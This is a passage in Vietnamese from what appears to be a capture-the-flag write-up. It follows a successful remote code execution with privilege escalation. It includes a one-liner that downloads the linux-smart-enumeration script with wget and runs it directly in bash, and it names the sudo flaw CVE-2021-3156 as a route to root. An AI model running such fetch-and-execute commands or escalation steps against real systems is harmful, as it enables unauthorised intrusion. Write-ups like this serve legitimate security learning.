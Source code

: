 Access granted!

Mình đã RCE thành công.

# Privilege Escapsulation:

## Enum:

Dùng Tool lse.h để enum system.

lse.h one line: `bash <(wget -q -O - "[https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh)") -l2 -i`

![Untitled](Untitled%2027.png)

## Exploit:

Ta thấy server này có tận 2 CVE có thể leo root, vậy mình sẽ thử khai thác theo cả 2 cách:

**CVE-2021-3156:**  Các Sudo phiên bản trước 1.9.5p2 bị lỗi Off-by-One( một loại BOF), dẫn dến cho phép chuyển đặc quyền lên root thông qua "sudoedit -s" và đối số dòng lệnh kết thúc bằng một ký tự dấu gạch chéo ngược.
